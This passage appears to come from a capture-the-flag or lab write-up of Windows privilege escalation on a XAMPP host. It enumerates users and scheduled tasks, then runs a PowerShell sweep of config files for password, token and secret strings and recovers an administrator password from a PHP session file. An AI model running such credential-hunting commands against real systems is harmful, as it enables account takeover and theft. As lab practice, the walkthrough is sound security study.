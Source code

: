 Users:
```powershell
net users
# Administrator            apache                   DefaultAccount
# Guest                    WDAGUtilityAccount

ls C:\Users

#     Directory: C:\Users

# Mode                 LastWriteTime         Length Name
# ----                 -------------         ------ ----
# d-----         9/27/2024   4:54 PM                Administrator
# d-----          8/5/2022   5:58 PM                apache
# d-----          9/2/2022   4:13 PM                apache.ERA
# d-r---        11/19/2020   7:48 AM                Public
```

## Scheduled tasks

```powershell
schtasks /query /fo LIST /v | findstr /b /c:"TaskName:" /c:"Author:" /c:"Task To Run:" /c:"Run As User:" /c:"Next Run Time:"
```
=> No scheduled task we can compromise.

## Credentials search

Searching the `C:\xampp` folder:

```powershell
 Get-ChildItem -Path "C:\xampp" -Recurse -File -Force -ErrorAction SilentlyContinue |
Where-Object { $_.Extension -match '\.(xml|json|ini|txt|config|bak)$' } |
Select-String -Pattern 'password', 'pass', 'passwd', 'pwd', 'credentials', 'auth', 'authentication', 'apikey', 'api_key', 'secret', 'token' -CaseSensitive:$false -ErrorAction SilentlyContinue |
Select-Object Path, Filename, LineNumber, Line
```
Resulting interesting files?
```
C:\xampp\mysql\bin\my.ini
C:\xampp\php\php.ini
C:\xampp\webdav\webdav.txt
```
=> Nope

```powershell
type C:\xampp\tmp\sess_4ratl05q4mpc92ib7bga2imgr9

# ...
# "sqlquery";s:60:"insert into creds value ("administrator","Almost4There8.?");"
# ...
```
=> administrator:Almost4There8.?
